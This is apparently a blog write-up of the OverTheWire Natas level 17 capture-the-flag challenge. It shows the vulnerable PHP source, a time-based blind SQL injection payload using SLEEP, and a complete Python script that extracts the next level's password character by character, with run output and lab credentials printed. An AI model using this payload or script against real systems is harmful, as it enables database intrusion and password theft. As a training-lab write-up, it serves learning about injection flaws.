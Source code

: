 ```yaml
---
layout: post
title: "Natas Level17 - Level18"
date: 2015-10-02 21:06:52
image: '/assets/img/'
description:
tags: Natas CTF
categories: Natas
twitter_text:
---
```

Natas 17 takes us back to Natas 15:

    ![Natas 17 search](/assets/img/screenshots/Natas_level17-1.png)

Lets look at the source to see if we can find whats changed:

    <html>
    <head>
    <!-- This stuff in the header has nothing to do with the level -->
    <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
    <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
    <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
    <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
    <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
    <script>var wechallinfo = { "level": "natas17", "pass": "<censored>" };</script></head>
    <body>
    <h1>natas17</h1>
    <div id="content">
    <?

    /*
    CREATE TABLE `users` (
      `username` varchar(64) DEFAULT NULL,
      `password` varchar(64) DEFAULT NULL
    );
    */

    if(array_key_exists("username", $_REQUEST)) {
        $link = mysql_connect('localhost', 'natas17', '<censored>');
        mysql_select_db('natas17', $link);

        $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
        if(array_key_exists("debug", $_GET)) {
            echo "Executing query: $query<br>";
        }

        $res = mysql_query($query, $link);
        if($res) {
        if(mysql_num_rows($res) > 0) {
            //echo "This user exists.<br>";
        } else {
            //echo "This user doesn't exist.<br>";
        }
        } else {
            //echo "Error in query.<br>";
        }

        mysql_close($link);
    } else {
    ?>

    <form action="index.php" method="POST">
    Username: <input name="username"><br>
    <input type="submit" value="Check existence" />
    </form>
    <? } ?>
    <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
    </body>
    </html>

Hmm... looks like they completely removed the response. I submitted the user name "natas18" (since I assume it will exist) and "asfdgshnt" since I do not think it will exist. I captured both requests and sent it to the Burp Comparer to see if we can find any diffrences:

    ![Natas 17 burp comparer](/assets/img/screenshots/Natas_level17-2.png)

As expected, the result is exactly the same. Since this is a blind sql injection with absolutly no output, the only thing I can think of is a time base attack. If a reponse takes longer when the password exists, we should be able to brute force it. With no output, this might be difficult. So I rebuild a database on my local machine with the following data:
    +----------+----------------------------------+
    | username | password                         |
    +----------+----------------------------------+
    | natas16  | WaIHEacj63wnNIBROHeqi3p9t0m5nhmh |
    +----------+----------------------------------+

Next I try the following query:

    Select * from users where username = "natas16"  AND LEFT(password, 1) COLLATE latin1_general_cs = "W" AND (SELECT SLEEP(5)) AND "1"="1";


And I get the following output:

    ![Natas 17 db output](/assets/img/screenshots/Natas_level17-3.png)

Here is the string that I will need to submit:

    natas18"  AND LEFT(password, 1) COLLATE latin1_general_cs = "a" AND  (SELECT SLEEP(20)) AND "1"="1

I capture a request in Burp and send it to the intruder but since this is a time base attack, I need to change the Number of threads to 1:

    ![Natas 17 Burp threads](/assets/img/screenshots/Natas_level17-4.png)

After running it I look at the response time and find the first letter of the password is x:

    ![Natas 17 Burp result](/assets/img/screenshots/Natas_level17-1.png)

Now lets script it!

    import urllib
    import urllib2
    import time

    url = 'http://natas17.natas.labs.overthewire.org/index.php'
    authorization = 'Basic bmF0YXMxNzo4UHMzSDBHV2JuNXJkOVM3R21BZGdRTmRraFBrcTljdw=='

    Chars = ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r',
    's','t','u','v','w','x','y','z','A','B','C','D','E','F','G','H','I','J','K','L',
    'M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','0','1','2','3','4','5',
    '6','7','8','9']

    password = ""

    #loop through possible length of password
    for i in range(1, 33):
        print "%d out of 32" % (i)
        #loop through possible chars
        for j in range(0,len(Chars)):
            sqli = 'natas18"  AND LEFT(password, %d) COLLATE latin1_general_cs = "%s" AND  (SELECT SLEEP(10)) AND "1"="1' % (i,password + Chars[j])
            values = {'username' : sqli}
            data = urllib.urlencode(values)
            req = urllib2.Request(url, data)
            req.add_header('Authorization', authorization)
            start = time.time()
            response = urllib2.urlopen(req)
            the_page = response.read()
            end = time.time()
            #print the_page
            duration = end-start
            if duration > 10:
                password+=Chars[j]
                print password
                break


The first time I run it I get a weird issue:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ....
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDa
    30 out of 32
    31 out of 32
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDaE

But when I ran it again and I got:

    1 out of 32
    x
    2 out of 32
    xv
    3 out of 32
    xvK
    4 out of 32
    xvKI
    5 out of 32
    xvKIq
    6 out of 32
    xvKIqD
    ...
    27 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCs
    28 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsD
    29 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
    30 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
    31 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
    32 out of 32
    xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

